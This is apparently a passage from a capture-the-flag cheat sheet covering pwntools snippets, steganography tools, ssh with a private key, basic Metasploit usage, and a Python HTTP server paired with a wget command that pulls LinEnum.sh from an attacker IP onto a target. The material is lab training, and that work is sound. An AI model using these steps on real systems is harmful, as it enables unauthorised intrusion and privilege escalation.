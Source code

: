 ```python
    io.sendlineafter('> ', b'3')
    io.interactive()

if __name__ == '__main__':
    main()
```

```python
from pwn import *

pattern = cyclic(100) # 100 bytes long
offset = cyclic_find('vaaa')
```

## Steganography
- [Stegsolve](https://github.com/zardus/ctf-tools/tree/master/stegsolve)
- [Stego](https://0xrick.github.io/lists/stego/)

## Other usefull stuff

### Adding to PATH
```
PATH=$PATH:/some/path
```

### ssh with private key
```
ssh -i some_id_rsa <usr>@<ip>
```

### Metasploit basic usage
```shell
msfconsole
search <name>
use <id>
show options
set rhosts <ip>
set targeturi /cgi-bin/hello.cgi
run
```

### Quick Python HTTP server

Will serve any file in directory
```shell
python -m SimpleHTTPServer 8000 # if python2
python -m http.server
```

To fetch from the remote machine
```shell
wget http://<ip>:8000/LinEnum.sh
```
